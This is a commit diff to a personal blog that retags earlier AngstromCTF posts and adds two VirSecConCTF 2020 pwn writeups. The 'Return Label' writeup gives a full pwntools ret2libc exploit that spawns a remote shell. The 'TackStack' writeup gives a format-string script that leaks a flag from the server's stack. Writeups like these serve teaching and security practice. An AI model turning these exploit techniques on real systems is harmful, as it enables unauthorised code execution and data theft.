

Before and after one commit to hoefler02/hoefler02.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 1692 px of the page at 89% size, without its empty margins (3-898 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
virsecconctf writeups

````diff
--- a/_posts/2020-03-22-angstromctf-canary.md
+++ b/_posts/2020-03-22-angstromctf-canary.md
@@ -2,7 +2,7 @@
 layout: post
 title: AngstromCTF 2020 - Canary
 excerpt: "Writeup for buffer overflow challenge with canary from AngstromCTF 2020"
-categories: [AngstromCTF 2020, pwn]
+categories: [pwn]
 ---
 
 Canary was the second challenge in the Binary category from AngstromCTF 2020, and was very similar to the first challenge which was called [no canary]({ post_url 2020-03-22-angstromctf-no-canary }). The challenge provided an executable and some source code (below).
--- a/_posts/2020-03-22-angstromctf-no-canary.md
+++ b/_posts/2020-03-22-angstromctf-no-canary.md
@@ -2,7 +2,7 @@
 layout: post
 title: AngstromCTF 2020 - No Canary
 excerpt: "Writeup for basic buffer overflow challenge from AngstromCTF 2020"
-categories: [AngstromCTF 2020, pwn]
+categories: [pwn]
 ---
 
 No Canary was the first challenge in the Binary category from AngstromCTF 2020. The challenge provided a 64-bit executable and some source code (below). Viewing the source, it is apparent that a 20 character buffer is initialized, and the vulnerable function `gets` allows us to supply input into that buffer. Since `gets` doesn't limit how many characters we write into the buffer, we can write more than 20, resulting in a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).
--- a/_posts/2020-03-23-angstromctf-bop-it.md
+++ b/_posts/2020-03-23-angstromctf-bop-it.md
@@ -2,7 +2,7 @@
 layout: post
 title: AngstromCTF 2020 - Bop It
 excerpt: "Writeup for memory leak challenge from AngstromCTF 2020"
-categories: [AngstromCTF 2020, pwn]
+categories: [pwn]
 ---
 
 Bop It was the third challenge in the Binary section of AngstromCTF. Although the bug was fairly simple, the challenge only accumulated 162 solves. The challenge supplies us with an executable and some source code (below).
--- a/_posts/2020-03-23-angstromctf-library-in-c.md
+++ b/_posts/2020-03-23-angstromctf-library-in-c.md
@@ -2,7 +2,7 @@
 layout: post
 title: AngstromCTF 2020 - LIBrary in C
 excerpt: "Writeup for format string ret2libc gadget challenge from AngstromCTF 2020"
-categories: [AngstromCTF 2020, pwn]
+categories: [pwn]
 ---
 
 LIBrary in C was the fifth challenge in the binary exploitation category of AngstromCTF 2020. The challenge supplies us with an executable, some source code (below), and a libc file. Usually whenever a pwnable challenge gives a libc file, some sort of ret2libc is involved.
--- a/_posts/2020-03-29-angstromctf-confused-streaming.md
+++ b/_posts/2020-03-29-angstromctf-confused-streaming.md
@@ -2,7 +2,7 @@
 layout: post
 title: AngstromCTF 2020 - Confused Streaming
 excerpt: "Writeup for stream cipher cryptography challenge from AngstromCTF 2020"
-categories: [AngstromCTF 2020, crypto]
+categories: [crypto]
 ---
 
 Confused Streaming was the fourth challenge from AngstromCTF 2020. The challenge provides us with some python code (seen below) and a challenge server.
--- a/_posts/2020-03-29-angstromctf-one-time-bad.md
+++ b/_posts/2020-03-29-angstromctf-one-time-bad.md
@@ -2,7 +2,7 @@
 layout: post
 title: AngstromCTF 2020 - One Time Bad
 excerpt: "Writeup for one time pad challenge from AngstromCTF 2020"
-categories: [AngstromCTF 2020, crypto]
+categories: [crypto]
 ---
 
 One Time Bad was the fifth challenge from AngstromCTF 2020. The challenge provides us with some python code (below) and a challenge server.
--- /dev/null
+++ b/_posts/2020-04-14-virsecconctf-return-label.md
@@ -0,0 +1,154 @@
+---
+layout: post
+title: VirSecConCTF 2020 - Return Label
+excerpt: "Writeup for ret2libc buffer overflow challenge from VirSecConCTF 2020"
+categories: [pwn]
+---
+
+Return label was fourth pwn challenge from VirSecCon2020. The challenge provided a binary and a challenge server. Running the binary actually gives us the address for printf in libc and asks where we should send a package (seen below).
+
+```
+michael@computer:~/Documents/CTF/virseccon/retlab$ ./challenge
+Where should we send your package (printf is at 00007f580de11e80)?
+
+```
+
+
+Running [radare2](https://www.radare.org/r/index.html) on the binary we can list out the functions (seen below).
+
+```
+[0x000006c0]> afl
+0x00000000    2 25           sym.imp.__libc_start_main
+0x00000638    3 23           sym._init
+0x00000660    1 6            sym.imp.puts
+0x00000670    1 6            sym.imp.printf
+0x00000680    1 6            sym.imp.gets
+0x00000690    1 6            sym.imp.fflush
+0x000006a0    1 6            sym.imp.dlsym
+0x000006b0    1 6            sub.__cxa_finalize_248_6b0
+0x000006c0    1 43           entry0
+0x000006f0    4 50   -> 40   sym.deregister_tm_clones
+0x00000730    4 66   -> 57   sym.register_tm_clones
+0x00000780    4 49           sym.__do_global_dtors_aux
+0x000007c0    1 10           entry1.init
+0x000007ca    1 118          sym.vuln
+0x00000840    1 27           sym.main
+0x00000860    4 101          sym.__libc_csu_init
+0x000008d0    1 2            sym.__libc_csu_fini
+0x000008d4    1 9            sym._fini
+```
+
+Seeing that there is no "flag" or "secret" functions we can safely assume that we will need to return to somewhere useful inside of libc. Looking at the code for main, we can see that it simply calls "vuln".
+
+```
+[0x00000840]> pdf
+            ;-- main:
+/ (fcn) sym.main 27
+|   sym.main ();
+|           ; var int local_10h @ rbp-0x10
+|           ; var int local_4h @ rbp-0x4
+|              ; DATA XREF from 0x000006dd (entry0)
+|           0x00000840      55             push rbp
+|           0x00000841      4889e5         mov rbp, rsp
+|           0x00000844      4883ec10       sub rsp, 0x10
+|           0x00000848      897dfc         mov dword [local_4h], edi
+|           0x0000084b      488975f0       mov qword [local_10h], rsi
+|           0x0000084f      e876ffffff     call sym.vuln
+|           0x00000854      b800000000     mov eax, 0
+|           0x00000859      c9             leave
+\           0x0000085a      c3             ret
+```
+
+Looking at the code for vuln, we can see a call to the dangerous "gets" function which does not check buffer size before writing (leading to a buffer overflow). Now that we have an idea of what we need to do we can use the [one_gadget](https://github.com/david942j/one_gadget) tool to find an offset that will give us RCE (seen below). Since the challenge did not provide a libc, I just used the libc on my Ubuntu 16.04 docker, and it worked!
+
+```
+michael@computer:~/Documents/CTF/virseccon/retlab$ one_gadget /lib/x86_64-linux-gnu/libc-2.27.so
+0x45216 execve("/bin/sh", rsp+0x40, environ)
+constraints:
+  rsp & 0xf == 0
+  rcx == NULL
+
+0x4f322 execve("/bin/sh", rsp+0x40, environ)
+constraints:
+  [rsp+0x40] == NULL
+
+0x10a38c execve("/bin/sh", rsp+0x70, environ)
+constraints:
+  [rsp+0x70] == NULL
+```
+
+We will keep these in mind. Next I launched GDB to find the offset between libc base and printf. I also calculated the amount of characters we need to write before reaching the return pointer.
+
+```
+(gdb) x printf
+0x7ffff7835800 <__printf>:	0xd8ec8148
+(gdb) i proc mapping
+process 9919
+Mapped address spaces:
+
+          Start Addr           End Addr       Size     Offset objfile
+      0x555555554000     0x555555555000     0x1000        0x0 /home/michael/Documents/CTF/virseccon/retlab/challenge
+      0x555555754000     0x555555755000     0x1000        0x0 /home/michael/Documents/CTF/virseccon/retlab/challenge
+      0x555555755000     0x555555756000     0x1000     0x1000 /home/michael/Documents/CTF/virseccon/retlab/challenge
+      0x7ffff77e0000     0x7ffff79c7000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so
+      0x7ffff79c7000     0x7ffff7bc7000   0x200000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
+(gdb) c
+Continuing.
+Where should we send your package (printf is at 00007ffff7844e80)?
+
+AAAA
+
+Breakpoint 2, 0x000055555555481f in vuln ()
+(gdb) x/xg $rsp
+0x7fffffffde10:	0x0000000041414141
+(gdb) c
+Continuing.
+
+Breakpoint 3, 0x000055555555483f in vuln ()
+(gdb) x/xg $rsp
+0x7fffffffdea8:	0x0000555555554854
+(gdb) q
+michael@computer:~/Documents/CTF/virseccon/retlab$ python
+Python 2.7.17 (default, Nov  7 2019, 10:07:09)
+[GCC 7.4.0] on linux2
+Type "help", "copyright", "credits" or "license" for more information.
+>>> 0x7ffff7835800 - 0x7ffff77e0000
+350208
+>>>  0x7fffffffdea8 - 0x7fffffffde10
+152
+```
+
+Okay, looks like we need to write 152 characters before the gadget address. We are finally ready to string everything together (as seen in the script below).
+
+{% highlight python %}
+from pwn import *
+
+r = remote('jh2i.com', 50005)
+
+printf = int(r.recvuntil('?').split(' ')[9][:-2], 16)
+
+libc_base = printf - 350208
+
+gadget = libc_base + 0x45216
+
+payload = 'A' * 152 + p64(gadget)
+
+r.sendline(payload)
+
+r.interactive()
+{% endhighlight %}
+
+Running this gives us a prompt, which is a remote shell on the server!
+
+```
+michael@computer:~/Documents/CTF/virseccon/retlab$ python retlab.py
+[+] Opening connection to jh2i.com on port 50005: Done
+[*] Switching to interactive mode
+
+$ id
+uid=8888(pwn) gid=8888(pwn) groups=8888(pwn)
+$ cat flag.txt
+LLS{r0p_1s_fun}
+```
+
+We can use the shell to obtain the flag `LLS{r0p_1s_fun}`. I hope this was helpful!
--- /dev/null
+++ b/_posts/2020-04-14-virsecconctf-tackstack.md
@@ -0,0 +1,81 @@
+---
+layout: post
+title: VirSecConCTF 2020 - TackStack
+excerpt: "Writeup for data leak challenge from VirSecConCTF 2020"
+categories: [pwn]
+---
+
+Tackstack was a 100 point challenge during VirSecConCTF 2020. It was actually very simple, but somehow only accumulated 59 solves. The challenge gives us a command to connect to the challenge. No source code is provided. Below is a snapshot of the challenge server in action. Basically it allows us to type in "tacks" to be added to the stack.
+
+```
+michael@computer:~/Documents/CTF/virseccon/tackstack$ nc jh2i.com 50038
+========================
+|       TACKSTACK      |
+========================
+
+
+Welcome to TackStack!
+How to play:
+  * Stack your tacks!
+Ready? Go!
+
+Your tack: tack
+------------------------
+|                      |
+    tack
+|                      |
+------------------------
+
+Your tack: tack2
+------------------------
+|                      |
+    tack
+    tack2
+|                      |
+------------------------
+
+Your tack: %x
+------------------------
+|                      |
+    tack
+    tack2
+    4030be
+|                      |
+------------------------
+```
+
+In the last prompt, where I entered `%x`, you can see that a hex number was returned. This indicates a format string vulnerability. Since we were not provided source code or a binary to attempt code redirection, I wrote a script to leak all strings off of the stack to see if there was anything useful.
+
+{% highlight python %}
+from pwn import *
+
+context.log_level = 'error'
+
+for i in range(100):
+
+    r = remote('jh2i.com', 50038)
+
+    r.recvuntil('Your tack: ')
+    r.sendline('%{}$s'.format(i + 1))
+
+    try: print(r.recvuntil('Your tack: ')[54:100].rstrip())
+    except: print('EOF')
+
+    r.close()
+
+{% endhighlight %}
+
+The script outputs lots of non-ascii junk, along with parts of the ascii-boxes, but around leak 100 we see something interesting.
+
+```
+|                      |
+-------
+FLAG=LLS{tack_stack?_more_like_stack_attack}
+|
+(null)
+|                      |
+--------------
+EOF
+```
+
+We can see that the flag `LLS{tack_stack?_more_like_stack_attack}` was on the stack all along! This can be submitted for 100 challenge points.
````
